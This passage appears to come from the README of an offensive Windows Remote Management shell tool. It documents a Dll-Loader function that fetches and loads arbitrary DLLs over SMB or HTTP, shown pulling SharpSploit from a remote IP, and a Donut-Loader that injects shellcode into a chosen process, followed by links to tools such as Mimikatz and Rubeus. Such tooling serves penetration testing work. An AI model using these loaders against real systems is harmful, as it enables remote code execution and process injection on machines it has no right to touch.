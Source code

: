    The dll file can be hosted by smb, http or locally. Once it is loaded type `menu`, then it is possible to autocomplete all functions.
```
*evil-withinrm* PS C:\> Dll-Loader
.SYNOPSIS
    dll loader.
    PowerShell Function: Dll-Loader
    Author: Hector de Armas (3v4Si0N)

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION
    .
.EXAMPLE
    Dll-Loader -smb -path \\192.168.139.132\\share\\myDll.dll
    Dll-Loader -local -path C:\Users\Pepito\Desktop\myDll.dll
    Dll-Loader -http -path http://example.com/myDll.dll

    Description
    -----------
    Function that loads an arbitrary dll

*evil-withinrm* PS C:\> Dll-Loader -http http://10.10.10.10/SharpSploit.dll
[+] Reading dll by HTTP
[+] Loading dll...
*evil-withinrm* PS C:\Users\test\Documents> menu

 [... Snip ...]

*evil-withinrm* PS C:\> [SharpSploit.Enumeration.Host]::GetProcessList()


Pid          : 0
Ppid         : 0
Name         : Idle
Path         :
SessionID    : 0
Owner        :
Architecture : x64

```
 - Donut-Loader: allows to inject x64 payloads generated with awesome [donut] technique. No need to encode the payload.bin, just generate and inject!

```
*evil-withinrm* PS C:\> Donut-Loader
.SYNOPSIS
    Donut Loader.
    PowerShell Function: Donut-Loader
    Author: Luis Vacas (CyberVaca)
    Based code: TheWover

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Donut-Loader -process_id 2195 -donutfile /home/cybervaca/donut.bin
    Donut-Loader -process_id (get-process notepad).id -donutfile /home/cybervaca/donut.bin

    Description
    -----------
    Function that loads an arbitrary donut :D
```


[Cybervaca]: https://github.com/cybervaca
[OscarAkaElvis]: https://github.com/OscarAkaElvis
[Jarilaos]: https://github.com/jarilaos
[arale61]: https://github.com/arale61
[Vis0r]: https://github.com/vmotos
[Alamot]: https://github.com/Alamot
[3v4Si0N]: https://github.com/3v4Si0N
[Borch]: https://github.com/Stoo0rmq
[donut]: https://github.com/TheWover/donut
[donut-maker]: https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py
[byt3bl33d3r]: https://twitter.com/byt3bl33d3r
[WinRb]: https://github.com/WinRb/WinRM/graphs/contributors
[TheWover]: https://github.com/TheWover
[Sh11td0wn]: https://github.com/Sh11td0wn
[ticketer.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
[ticket_converter.py]: https://github.com/Zer1t0/ticket_converter
[Rubeus]: https://github.com/GhostPack/Rubeus
[Mimikatz]: https://github.com/gentilkiwi/mimikatz
[cheatsheet]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
[Dockerhub]: https://hub.docker.com/r/oscarakaelvis/evil-withinrm
[Hackplayers]: https://www.hackplayers.com/
[@CyberVaca_]: https://twitter.com/CyberVaca_
[@OscarAkaElvis]: https://twitter.com/OscarAkaElvis
[@_Laox]: https://twitter.com/_Laox
[@arale61]: https://twitter.com/arale61
[Version-shield]: https://img.shields.io/badge/version-3.6-blue.svg?style=flat-square&colorA=273133&colorB=0093ee "Latest version"
[Ruby2.3-shield]: https://img.shields.io/badge/ruby-2.3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000 "Ruby 2.3 or later"
[License-shield]: https://img.shields.io/badge/license-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273133&colorB=bd0000 "LGPL v3+"
[Docker-shield]: https://img.shields.io/docker/automated/oscarakaelvis/evil-withinrm.svg?style=flat-square&colorA=273133&colorB=a9a9a9 "Docker rules!"
[Gem-Version]: https://badge.fury.io/rb/evil-withinrm.svg "Ruby gem"